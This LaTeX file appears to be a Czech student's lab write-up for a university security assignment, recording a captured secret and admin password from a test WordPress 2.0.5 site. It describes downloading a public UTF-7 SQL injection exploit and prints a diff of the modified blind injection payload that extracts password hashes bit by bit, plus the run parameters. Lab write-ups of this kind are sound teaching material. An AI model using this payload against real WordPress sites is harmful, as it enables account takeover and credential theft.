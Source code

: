 \documentclass[a4paper,10pt]{article}
\begin{document}
\section*{Část 3}

\textbf{Tajná informace:} ba007c20079695250bceef1eb277f357

\textbf{Heslo k účtu admin:} p4ssWd

\textbf{Čas získání:} 25.10.2009 23:10

\subsubsection*{Popis získání tajné informace}

\begin{itemize}
	\item Zjistil jsem si verzi WordPressu (podle vygenerovaného HTML kódu se jednalo o verzi 2.0.5).

	\item Stáhnul jsem si exploit, který měl využívat zranitelnost v této verzi (UTF-7 SQL Injection) \\
		(\verb!http://milw0rm.com/exploits/3095!). \\
		Tento exploit umožňuje zjistit hash uživatelského hesla pomocí útoku typu SQL injection. Hash hesla
		je získán postupně -- bit po bitu.

	\item Tento exploit jsem musel upravit, protože nefungoval korektně (na daném MySQL serveru nebyly
		podporovány použité komentáře a také hláška u nulového bitu v hashi byla u serveru jiná).
		Provedl jsem následující úpravy (diff oproti verzi z Internetu):
		\begin{verbatim}
		237c237
		>     sql = sql + " and substring(reverse(lpad(conv(substring(user_pass, %d,1), 16, 2),
		4,'0')),%d,1)='1' UNION SELECT 1 FROM wp_comments WHERE '' = ('" % (nibble, bit)
		---
		<     sql = sql + " and substring(reverse(lpad(conv(substring(user_pass, %d,1), 16, 2),
		4,'0')),%d,1)='1' /*" % (nibble, bit)
		253c253
		>     if string.find(content, 'error') != -1:
		---
		<     if string.find(content, '15 Sekunden') != -1:
		337c337
		>     # checkUsername(host, pid, prefix, username, uid)
		---
		<     checkUsername(host, pid, prefix, username, uid)
		\end{verbatim}

	\item Spustil jsem tento upravený exploit s parametry (\texttt{3} je číslo příspěvku a \texttt{admin} je
		uživatelské jméno administrátora -- to jsem zjistil z přihlašovací stránky, kdy po zadání uživatelského jména
		\texttt{admin} to napsalo, že bylo zadáno špatné heslo k zadanému účtu): \\
		\texttt{-h https://minotaur.fi.muni.cz:8443/\textasciitilde xkumpost/bis/part2/ -p 3 -u admin}.


\end{itemize}
\end{document}

